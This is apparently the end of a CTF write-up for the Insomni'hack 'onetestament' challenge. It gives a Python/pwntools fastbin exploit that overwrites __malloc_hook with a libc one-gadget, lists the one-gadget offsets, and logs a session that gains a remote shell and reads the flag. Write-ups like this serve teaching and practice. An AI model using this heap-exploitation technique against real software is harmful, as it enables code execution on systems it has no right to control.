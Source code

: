 ```python
# Get pointer to fake 0x70-sized chunk near __malloc_hook
# by overwriting fd of first fast chunk
create(3, p64(libc.sym.__malloc_hook - 0x23))

# move pointer to fake chunk to head of fastbin
create(3, 'junk')
create(3, 'junk')

# overwrite __malloc_hook using our fake chunk
# accounting for the fact that malloc returns pointers
# to chunk headers but operates on user data,
# That's why we use 0x13 instead of 0x23
create(3, p8(0) * 0x13 + p64(libc.address + 0x4527a))

# trigger one-gadget
sla(b'choice: ', b'1')
sla(b'choice: ', b'1')

# =-=-=-==-=-=-=-=-=
io.interactive()
```

One-gadgets for reference:


```c
# One gadgets
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Final exploit script:

[x.py](./files/x.py)

```
[+] Opening connection to onetestament.insomnihack.ch on port 6666: Done
[*] Libc leak: 0x7fc41758eb78
[*] Libc base: 0x7fc4171ca000
[*] dup index: 4
[*] Bypassing double-free check with: b'00004'
[*] Switching to interactive mode
$ 
$ id
uid=1000(onetestament) gid=1000(onetestament) groups=1000(onetestament)
$ cat flag
INS{0ld_7r1ck5_4r3_7h3_b357}
$  
```

## Similar challenge (I think)
[RCTF18-stringer](https://abiondo.me/2018/05/21/rctf18-stringer/)